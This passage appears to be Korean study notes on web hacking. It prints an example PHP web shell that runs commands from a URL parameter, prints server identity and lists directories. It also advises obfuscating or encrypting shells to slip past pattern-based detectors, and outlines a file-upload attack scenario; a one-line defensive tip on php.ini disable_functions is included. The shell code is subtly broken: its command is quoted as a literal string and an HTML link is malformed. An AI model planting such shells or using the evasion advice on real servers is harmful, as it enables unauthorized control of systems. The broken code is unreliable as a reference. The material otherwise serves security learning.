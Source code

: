   ```pseudocode
  ...
  ```

=> php.ini의 disable_functions로 함수 사용 못하도록 비활성화하여 웹쉘 차단가능



### 예제) PHP 웹 쉘 코드

```pseudocode
<?
	$cmd = $_GET['cmd'];
	$result = '$cmd';
	$result = str_replace("\n","<br />",$result);
	echo $result;
	// 'cmd'를 인자로 받아, Backtick을 이용해 시스템 명령어 실행
	
	 echo trim('whoami').'@'.trim(`hostname`).':'.getcwd()."<br /><br />";
	 //서버 정보명 출력
	 
	 if($_GET[dir] == "") $dir = ".";
	 else		$dir= $_GET[dir];
	 chdir($dir);
	 
	 $dh = opendir(".");
	 while (($file = readdir($dh)) !== false){
	 if(is_dir($file)) echo "<a href=".$_SERVER['PHP_SELF']."?dir=".$dir."/".$file."</a>";
	 else echo $file;
	 
	 echo "<br />";
	 }
	 closedir($dh);
	 //현재 폴더 출력
```

=> 웹 쉘 탐지 솔루션은 패턴 기반으로 탐지하므로, **암호화하거나 난독화하여 우회**



## 2.5.2 파일 업로드 취약점 공격

### 공격 시나리오

1. PHP 웹 쉘 파일 업로드 & 웹 쉘 파일 요청

   -> 시스템 명령어 수행

   

2. 업로드 경로 파악

   ex) 이미지의 속성값으로 업로드 경로 파악/ 업로드 패턴파악..

   

3. 악성 PHP 파일 경로 요청
